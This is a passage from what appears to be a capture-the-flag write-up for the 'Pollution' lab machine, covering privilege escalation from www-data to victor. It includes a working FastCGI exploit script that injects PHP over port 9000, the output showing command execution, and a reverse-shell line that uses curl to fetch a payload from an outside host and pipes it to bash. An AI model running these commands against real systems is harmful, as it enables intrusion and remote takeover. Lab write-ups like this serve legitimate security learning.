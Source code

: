 - All hashes in the database are not crackable
- Found open port 9000

```bash
www-data@pollution:~/forum$ ss -tulpn | grep tcp | grep LISTEN
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
tcp   LISTEN 0      511        127.0.0.1:3000       0.0.0.0:*          
tcp   LISTEN 0      511        127.0.0.1:9000       0.0.0.0:*          
tcp   LISTEN 0      80         127.0.0.1:3306       0.0.0.0:*          
tcp   LISTEN 0      511          0.0.0.0:6379       0.0.0.0:*          
tcp   LISTEN 0      511                *:80               *:*          
tcp   LISTEN 0      128             [::]:22            [::]:*          
tcp   LISTEN 0      511            [::1]:6379          [::]:* 
```

- To elevate from www-data to victor: https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi

```bash
www-data@pollution:~/developers$ cat /tmp/wwwdata/poc.sh 
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/developers/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done

www-data@pollution:~/developers$ /tmp/wwwdata/poc.sh 127.0.0.1
Status: 302 Found
Set-Cookie: PHPSESSID=f4ma2c64hqtf9npu84g0eanrts; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /login.php
Content-type: text/html; charset=UTF-8

victor
```

- To get revshell, executed the same revshell payload `curl 10.10.16.15/r -o - | bash`
- Got user.txt
